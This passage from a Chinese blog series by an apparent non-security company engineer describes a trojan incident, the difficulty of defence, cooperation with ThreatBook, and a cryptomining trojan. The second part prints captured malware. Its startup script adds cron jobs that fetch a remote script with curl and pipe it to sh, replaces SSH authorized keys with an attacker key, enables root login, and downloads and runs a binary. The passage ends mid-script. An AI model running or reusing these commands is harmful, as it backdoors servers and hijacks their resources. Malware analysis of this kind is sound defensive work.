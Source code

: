 其实就算是拿到了样本，逆向难度也很大。何况木马关键数据全部加密，传输过程也加密，哪哪都是加密。笔者曾经试图自行破解，找来了《IDA Pro指南》之类的秘籍，无奈功力不够，只能草草收场。

#### 防御之难

首先，防御一方是守城战。资源有限，防线漫长，安全投入大见效慢。做与不做效果无法评估，做了不代表没有漏洞，不做也不见得出什么大事。

其次，消极安全观主导制度体系建设。每个大单位都有安全责任制，甚至很多地方都上升到安全KPI一票否决的高度。实际情况呢？ 管理上的松散、各自为战，为了安全KPI，消极看待业务需求，逼得业务方剑走偏锋，反而增加了漏洞风险。

最后，攻防双方技术上完全不对等。
攻击者已经进化到大兵团作战模式，兵强马壮，甚至还发展出CaaS（Crime as a Service）这类梦幻般的服务理念。例如僵尸网络不仅可以调度全部资源，提供大规模攻击服务，还能提供间歇性的慢速攻击服务。按需收费，童叟无欺。
防御者基本上还是的大刀长矛。这战没发打。

#### 合作
如果凭借笔者个人的天资和努力，甚至凭借本公司的力量，几乎可以肯定，我们到现在还不一定能知道这款的木马的名字，更不用说管窥它的细节。因为我们根本就不是安全公司，几百号人里面连一个安全专家都没有。这种情况在其它企业应该也具有普遍性。

在这次的案例中，很快就完成了从样本捕获、攻击分析到安全加固的一系列动作，全程业务不受太大影响，甲方用户基本无感知。关键得益于和第三方的充分合作。

微步在线（ThreatBook）——国内首家威胁情报公司。它们的思路很特别，没有去走传统安全公司的老路，而是专注于威胁情报的样本分析、收集和处理，实现大范围长跨度的数据积累，促进情报交流和信息共享，通过合作创造价值。这个思路对于打破行业、竞争企业的壁垒，意义非凡。

最近，它们刚刚拿到A轮投资，资本市场就是敏锐。


##（2）今天你被挖矿了吗？
字数835 阅读115 评论2 喜欢1
书接上文，针对编号101样本的分析，我们已经知道，黑色产业界通过植入木马，控制了大量主机资源，只要有人花钱，就可以按需要调度足够的资源发动DDos攻击，据说还可以按效果付费。

此外，还有一种常见模式则是“挖矿木马”，首先还是来看样本：
~~~
root      3744 29921  0 19:53 pts/0    00:00:00 grep min
root     31333     1 99 19:48 ?        02:46:38
/opt/minerd -B -a cryptonight
-o stratum+tcp://xmr.crypto-pool.fr:8080 -u
48vKMSzWMF8TCVvMJ6jV1BfKZJFwNXRntazXquc7fvq9DW23GKk
cvQMinrKeQ1vuxD4RTmiYmCwY4inWmvCXWbcJHL3JDwp -p x
~~~

uptime看到的负载值非常高。

启动脚本
```bash
echo "*/15 * * * * curl -fsSL https://r.chanstring.com/pm.sh?0706 | sh" > /var/spool/cron/root
mkdir -p /var/spool/cron/crontabs
echo "*/15 * * * * curl -fsSL https://r.chanstring.com/pm.sh?0706 | sh" > /var/spool/cron/crontabs/root

if [ ! -f "/root/.ssh/KHK75NEOiq" ]; then
    mkdir -p ~/.ssh
    rm -f ~/.ssh/authorized_keys*
    echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzwg/9uDOWKwwr1zHxb3mtN++94RNITshREwOc9hZfS/F/yW8KgHYTKvIAk/Ag1xBkBCbdHXWb/TdRzmzf6P+d+OhV4u9nyOYpLJ53mzb1JpQVj+wZ7yEOWW/QPJEoXLKn40y5hflu/XRe4dybhQV8q/z/sDCVHT5FIFN+tKez3txL6NQHTz405PD3GLWFsJ1A/Kv9RojF6wL4l3WCRDXu+dm8gSpjTuuXXU74iSeYjc4b0H1BWdQbBXmVqZlXzzr6K9AZpOM+ULHzdzqrA3SX1y993qHNytbEgN+9IZCWlHOnlEPxBro4mXQkTVdQkWo0L4aR7xBlAdY7vRnrvFav root" > ~/.ssh/KHK75NEOiq
    echo "PermitRootLogin yes" >> /etc/ssh/sshd_config
    echo "RSAAuthentication yes" >> /etc/ssh/sshd_config
    echo "PubkeyAuthentication yes" >> /etc/ssh/sshd_config
    echo "AuthorizedKeysFile .ssh/KHK75NEOiq" >> /etc/ssh/sshd_config
    /etc/init.d/sshd restart
fi

if [ ! -f "/etc/init.d/lady" ]; then
    if [ ! -f "/etc/systemd/system/lady.service" ]; then
        mkdir -p /opt
        curl -fsSL https://r.chanstring.com/v12/lady_`uname -i` -o /opt/KHK75NEOiq33 && chmod +x /opt/KHK75NEOiq33 && /opt/KHK75NEOiq33
```